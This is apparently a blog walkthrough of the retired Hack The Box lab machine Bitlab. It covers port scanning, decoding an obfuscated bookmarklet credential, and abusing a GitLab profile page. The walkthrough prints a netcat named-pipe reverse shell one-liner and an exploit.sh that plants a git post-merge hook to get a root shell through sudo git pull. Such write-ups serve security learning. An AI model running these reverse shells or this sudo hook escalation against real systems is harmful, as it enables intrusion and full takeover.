 ```yaml
---
layout: post
title: "Bitlab: Hack The Box Walkthrough"
date: 2020-01-12 08:36:49 +0000
last_modified_at: 2020-01-12 08:36:49 +0000
category: Walkthrough
tags: ["Hack The Box", Bitlab, retired, Linux]
comments: true
image:
  feature: bitlab-htb-walkthrough.jpg
  credit: Republica / Pixabay
  creditlink: https://pixabay.com/photos/flasks-erlenmeyer-chemistry-606612/
---
```


This post documents the complete walkthrough of Bitlab, a retired vulnerable [VM][1] created by [Frey][2] and [thek][3], and hosted at [Hack The Box][4]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Bitlab is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.114 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-10 06:27:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.114                                    
Discovered open port 80/tcp on 10.10.10.114
```

Nothing special stands out. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.114
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    syn-ack ttl 62 nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

This is how the site looks like.


{% include image.html image_alt="daf62219.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/daf62219.png" %}


### `robots.txt`

Long story short, I found an interesting file `bookmarks.html` at `/help`.


{% include image.html image_alt="0eeae026.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/0eeae026.png" %}


There's a JavaScript hyperlink at GitLab Login.


{% include image.html image_alt="e5885788.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/e5885788.png" %}


This is what it looks like.

```
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It's easy to decode the above in Scratchpad.


{% include image.html image_alt="100e7322.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/100e7322.png" %}


As you can see, there's a credential (`clave:11des0081x`). I suppose that's for the GitLab login.

### GitLab

Let's give it a shot.


{% include image.html image_alt="001b2463.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/001b2463.png" %}


Sweet.

### Something's up with the profile

Long story short, the creators have kindly left a PHP profile page under Settings for the purpose of getting that foothold.


{% include image.html image_alt="e92d2e0c.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/e92d2e0c.png" %}


It coincides with the Profile repository under the Administrator's projects. Simply edit `index.php` and merge it to the master branch.


{% include image.html image_alt="51c81730.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/51c81730.png" %}


Let's check it out.


{% include image.html image_alt="ea1271ea.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/ea1271ea.png" %}


## Low-Privilege Shell

Time to connect back our reverse shell. For that, I'm using this one-liner.

```
rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 1234 >/var/tmp/p
```

On my `nc` listening at `1234/tcp`, a reverse shell appears...


{% include image.html image_alt="bec849d7.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/bec849d7.png" %}


## Privilege Escalation

During enumeration of `www-data`'s account, I notice that `www-data` is able to `sudo` to `root` without password for `git pull`.


{% include image.html image_alt="a552c8b9.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/a552c8b9.png" %}


With that in mind, I wrote the following script to escalate my privileges using `git` hooks, particularly [`post-merge`](https://www.git-scm.com/docs/githooks#_post_merge).

The idea is simple. Initialize one Git repository, then `git clone` it to another. Update the first one, then perform a `git pull` on the second, triggering `post-merge` with `root` privileges.


{% include image.html image_alt="bf29dabd.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/bf29dabd.png" %}


<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

one=$(mktemp -d -p /dev/shm)
two=$(mktemp -d -p /dev/shm)

cd $one
git init .
echo 'hello' > readme.md
git add .
git commit -m "add readme"

cd $two
git clone file://$one .

cd $one
echo 'hello world' > readme.md
git add .
git commit -m "update readme"

cd $two
echo '#!/bin/bash' > .git/hooks/post-merge
echo >> .git/hooks/post-merge
echo 'rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 4321 >/var/tmp/p' >> .git/hooks/post-merge
chmod +x .git/hooks/post-merge

# bombs away
sudo git pull
```

On my `nc` listening at `4321/tcp`, a `root` shell appears...


{% include image.html image_alt="6c649398.png" image_src="/8ec3bed5-7b4a-485d-a9c5-5cef6535d315/6c649398.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/207
[2]: https://www.hackthebox.eu/home/users/profile/33283
[3]: https://www.hackthebox.eu/home/users/profile/4615
[4]: https://www.hackthebox.eu/
